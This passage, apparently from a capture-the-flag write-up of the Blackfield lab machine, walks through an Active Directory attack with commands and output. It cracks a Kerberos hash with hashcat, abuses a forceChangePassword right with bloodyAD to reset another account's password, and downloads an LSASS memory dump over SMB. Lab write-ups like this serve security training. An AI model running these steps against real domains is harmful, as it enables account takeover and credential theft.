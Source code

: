 Cracking the hash with hashcat, we find the password for the user.
![capture-3](capture-3.PNG)
```
hashcat -m 13100 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
<snip>
support:#00^BlackKnight
```

## Support
Using our new creds, we enumerate SMB again and find we have access to the `forensic` share.
![capture-4](capture-4.PNG)
However, trying to access this share turns out that we `don't` have access to it..
```
┌──(tsunami㉿coffee)-[~/Documents/blackfield/bloodhound]
└─$ smbclient //10.129.162.184/forensic -U "blackfield.local//support%#00^BlackKnight"
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*
smb: \> 
```
Using bloodhound, we find that we are able to `forceChangePassword` over the `audit2020` account.
![capture-5](capture-5.PNG)
This resource is omega helpful: https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword <br>
```
┌──(tsunami㉿coffee)-[~/Documents/blackfield/bloodhound]
└─$ bloodyAD --host "10.129.162.184" -d "blackfield.local" -u "support" -p "#00^BlackKnight" set password "audit2020" "P@SSW0RD1xd"
[+] Password changed successfully!
```
Accessing the forensic share again, checking `memory_analysis` we find a lsass.zip
```
┌──(tsunami㉿coffee)-[~/Documents/blackfield/forensic]
└─$ smbclient //10.129.162.184/forensic -U "blackfield.local//audit2020%P@SSW0RD1xd"

smb: \memory_analysis\> ls
  .                                   D        0  Thu May 28 21:28:33 2020
  ..                                  D        0  Thu May 28 21:28:33 2020
  conhost.zip                         A 37876530  Thu May 28 21:25:36 2020
  ctfmon.zip                          A 24962333  Thu May 28 21:25:45 2020
  dfsrs.zip                           A 23993305  Thu May 28 21:25:54 2020
  dllhost.zip                         A 18366396  Thu May 28 21:26:04 2020
  ismserv.zip                         A  8810157  Thu May 28 21:26:13 2020
  lsass.zip                           A 41936098  Thu May 28 21:25:08 2020
  mmc.zip                             A 64288607  Thu May 28 21:25:25 2020
  RuntimeBroker.zip                   A 13332174  Thu May 28 21:26:24 2020
  ServerManager.zip                   A 131983313  Thu May 28 21:26:49 2020
  sihost.zip                          A 33141744  Thu May 28 21:27:00 2020
  smartscreen.zip                     A 33756344  Thu May 28 21:27:11 2020
  svchost.zip                         A 14408833  Thu May 28 21:27:19 2020
  taskhostw.zip                       A 34631412  Thu May 28 21:27:30 2020
  winlogon.zip                        A 14255089  Thu May 28 21:27:38 2020
  wlms.zip                            A  4067425  Thu May 28 21:27:44 2020
  WmiPrvSE.zip                        A 18303252  Thu May 28 21:27:53 2020

                5102079 blocks of size 4096. 1693230 blocks available
smb: \memory_analysis\> get lsass.zip
getting file \memory_analysis\lsass.zip of size 41936098 as lsass.zip (17360.4 KiloBytes/sec) (average 17360.4 KiloBytes/sec)
```
